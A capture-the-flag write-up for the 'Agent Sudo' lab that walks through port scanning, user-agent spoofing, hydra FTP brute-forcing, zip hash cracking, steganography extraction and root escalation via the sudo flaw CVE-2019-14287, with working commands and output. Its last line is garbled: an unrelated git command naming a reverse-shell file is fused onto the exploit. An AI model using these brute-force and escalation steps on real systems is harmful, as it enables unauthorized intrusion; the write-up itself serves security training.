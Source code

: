 # Agent Sudo 

> Lorenzo De Simone | 16.12.2022

----------------------------------

## Hosts 

```bash
$IP=10.10.31.105
```

## Enumeration

1. How many open ports? 

```bash
$ sudo nmap -sC -sV -oN nmap/initial 10.10.31.105
[sudo] password for lorenzo: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-16 23:51 CET
Nmap scan report for 10.10.31.105
Host is up (0.039s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.12 seconds

```

2. How you redirect yourself to a secret page? 


> Use your own codename as user-agent to access the site 

3. What is the agent name? 

```bash
$ curl -A "R" -L 10.10.31.105
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>

```

```bash
$ curl -A "C" -L 10.10.31.105
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```
Using curl with -A to spoof the user-agent and -L to follow any redirects 

R is a valid codename but not the one we are searching for. Since there are 25 Employees the codenames probably follow the alphabet

## Hash cracking and brute-force

1. FTP password 

```bash
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.31.105 ftp     
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-17 00:21:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.31.105:21/
[21][ftp] host: 10.10.31.105   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-17 00:22:22

```
Options: 
-l => specifiy Username 
-P => specifiy Worlist 

2. Zip Password 

```
$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
```
$ binwalk cutie.png     

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22 
```
Extracting the .zip with binwalk -e cutie.png reveals 8702.zip

Getting the password for the .zip file: 

```
$ zip2john 8702.zip > hashes 
```
```
$ john hashes                                                                                          1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-12-17 00:43) 1.176g/s 52287p/s 52287c/s 52287C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Decrypt .zip file with 7z e "filename"

```
$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R

```

3. steg password

```
$ echo  "QXJlYTUx" | base64 -d
Area51 
```

4. Who is the other agent (in full name?)

```
$ steghide info cute-alien.jpg 
"cute-alien.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "message.txt":
    size: 181.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

```
```
$ steghide extract -sf cute-alien.jpg                                                                130 ⨯
Enter passphrase: 
wrote extracted data to "message.txt".
```

5. SSH Password

Found Name name and Password in message.txt

## Capture the User Flag 

1. What is The User Flag 
> User Flag found in James home directory 

## Privilege escalation

1. CVE Number for the escalation 
> CVE-2019-14287

Explanation: 
https://www.exploit-db.com/exploits/47502

2. Priv esc 
> sudo -u#-1 /bin/bashgit rm --cached learning_paths/jr_pen_tester/shells/windows-php-reverse-shell

